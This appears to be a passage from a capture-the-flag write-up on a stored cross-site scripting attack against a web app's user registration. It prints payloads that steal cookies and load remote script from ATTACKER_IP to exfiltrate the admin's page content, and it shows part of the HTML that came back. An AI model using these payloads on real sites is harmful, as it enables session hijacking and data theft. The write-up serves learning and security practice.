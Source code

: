Registering a username `<script>alert("1")</script>`, we get ![Alt text](./assets/alert_xss.png)

The next part is to try and steal the admin user's session cookie by registering `<script>document.location.href='http://ATTACKER_IP?C='.concat(encodeURIComponent(document.cookie))</script>` user and set up a listener locally to see traffic from the server. This didn't work, because the cookie is an httponly cookie and javascript can't access it.

If we can't steal the cookie, we can try to exfiltrate data from the server (look into the PHP source code for example). Here is an interesting article about how it works: https://www.trustedsec.com/blog/simple-data-exfiltration-through-xss

I set up a Golang server locally to serve javascript so that the admin executes it and try to see what i can get. Find the source code at `server/main.go`. After registering a user `<script src="http://ATTACKER_IP/f/exfiltrate.js"></script>` and logging-in, we get the following request from the server: ![Alt text](./assets/exfil_res1.png)

Decoding the output, we get
```html
<!DOCTYPE html>
<html lang="en">
<head>

  <meta charset="utf-8">
  <title>Your page title here :)</title>
  <meta name="viewport" content="width=device-width, initial-scale=1">

  <link rel="stylesheet" href="css/normalize.css">
  <link rel="stylesheet" href="css/skeleton.css">


</head>
<body>
  <div class="container">
  <div class="row">
```